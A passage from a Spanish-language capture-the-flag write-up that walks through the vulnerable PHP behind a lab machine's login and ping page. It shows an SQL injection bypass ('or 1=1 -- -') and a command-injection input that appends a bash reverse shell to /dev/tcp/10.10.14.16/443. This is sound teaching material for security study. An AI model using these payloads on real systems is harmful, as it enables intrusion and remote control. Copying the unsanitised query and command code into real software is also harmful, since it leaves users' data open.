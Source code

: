 ![ReverseShell.png](ReverseShell.png)
## Visualizando la vulnerabilidad y exfiltración de datos
Lo que se menciona en este punto no forma parte del proceso de resolución de la máquina, pero puede ser útil en un entorno real.
### Vulnerabilidad
#### SQLi
Al obtener acceso a la máquina, podemos visualizar el contenido del archivo _index.php_. Este archivo contiene el código fuente del sitio, y nos centraremos en la parte relevante donde el código es vulnerable a _SQLi_:
```php
$myusername = $_POST['username'];
$mypassword = md5($_POST['password']); 

$sql = "SELECT id FROM users WHERE username = '".$myusername."' and password = '".$mypassword."'";
$result = mysqli_query($db,$sql);
$row = mysqli_fetch_array($result,MYSQLI_ASSOC);

$count = mysqli_num_rows($result);
```
Podemos ver que el contenido del campo _username_ se almacena en la variable _myusername_, y la contraseña se hashea con MD5, razón por la cual el _SQLi_ no funcionaba en el campo de la contraseña.
En una ejecución normal, la consulta SQL sería la siguiente:
```MySQL
SELECT id FROM users WHERE username = 'admin' and password = 'SuperSecretPa$$word';
```
Pero al agregar una sentencia SQL en el campo del usuario, sucede lo siguiente:
```MySQL
SELECT id FROM users WHERE username = '' or 1=1 -- -' and password = 'password??';
```
Dado que el sitio deja todo el trabajo de verificar al usuario a la sentencia SQL, mientras esta devuelva una columna, nos permitirá acceder al sitio _welcome.php_, donde se encuentra la vulnerabilidad de _command injection_.
```php
$count = mysqli_num_rows($result);
// If result matched $myusername and $mypassword, table row must be 1 row
		
if($count == 1) {
```
#### Command Injection
Esta vulnerabilidad se encuentra en el sitio, ya que no se sanitiza el contenido que se envía.
Al revisar el código fuente, me encontré con otra forma de inyectar comandos, pero no nos enfocaremos en ese método, sino en el que se utiliza en este _WriteUp_, que es colocando `8.8.8.8; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'`, donde se produce el _Command Injection_.
```php
if($_SERVER["REQUEST_METHOD"] == "POST") {
	//print_r($_POST);
	$command = $_POST['command'];
	$host = $_POST['host'];
```
